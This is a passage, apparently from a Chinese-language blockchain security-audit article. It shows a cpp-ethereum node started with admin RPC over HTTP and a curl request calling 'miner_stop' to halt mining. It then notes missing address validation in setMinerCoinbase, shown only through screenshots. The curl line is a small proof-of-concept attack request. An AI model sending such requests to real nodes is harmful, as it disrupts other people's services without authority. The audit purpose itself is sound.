 如果启用此功能，则默认行为是不安全的，此时远程攻击者可以通过调用 RPC 请求阻断挖矿操作等

```plain
icewall@ubuntu:~/bugs/cpp-ethereum/build/eth$ ./eth -j --ipc --private 123 --no-discovery --datadir `pwd`/data --config config.json --admin-via-http 
cpp-ethereum, a C++ Ethereum client
cpp-ethereum 1.3.0
  By cpp-ethereum contributors, (c) 2013-2016.
  See the README for contributors and credits.
Networking disabled. To start, use netstart or pass --bootstrap or a remote host.
JSONRPC Admin Session Key: Zt9zxSANHZs=
    03:09:10 AM.197|miner0  Loading full DAG of seedhash: #00000000…
    03:09:10 AM.978|miner0  Full DAG loaded

icewall@ubuntu:~/bugs/cpp-ethereum$ curl -X POST --data '{"jsonrpc":"2.0","method":"miner_stop","params":[1],"id":1}' localhost:8545
```

### 参数合法性校验

在对某公链进行安全审计时发现公链中对于传入的地址参数的合法性缺少检查  
[![](assets/1706957988-4de2f3c306bd990b7f3099d15f8650f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201151448-956ed986-c0d1-1.png)  
setMinerCoinbase 直接赋值，未对参数做检查  
[![](assets/1706957988-62ece8a6ac9211fc0f37ab2d19eeb1be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201151511-a347786a-c0d1-1.png)  
传入非法的地址参数  